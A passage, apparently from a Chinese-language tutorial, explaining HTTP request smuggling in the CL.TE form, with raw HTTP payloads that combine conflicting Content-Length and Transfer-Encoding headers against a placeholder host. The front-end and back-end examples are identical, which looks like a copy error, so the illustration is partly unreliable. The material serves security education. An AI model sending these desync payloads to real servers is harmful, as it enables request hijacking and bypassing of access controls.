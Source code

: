 如果您发送了一个包含主体的请求，连接上的下一个请求将被附加到被发送的请求的主体，这通常会产生副作用，即根据明显的 Content-Length 截断最终请求，此时后端实际上看到了三个请求，其中第三个"请求"只是一系列剩余的字节。

前端 (CL 模式)：

```c
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked
0
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25
x=GET / HTTP/1.1
Host: vulnerable-website.com
```

后端 (TE 模式)：

```c
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked
0
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25
x=GET / HTTP/1.1
Host: vulnerable-website.com
```

如果我们简单的构造一下，通过一次发送两个请求，那么连接上的任何后续请求都将保持不变：

前端 (CL 模式)：

```c
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```
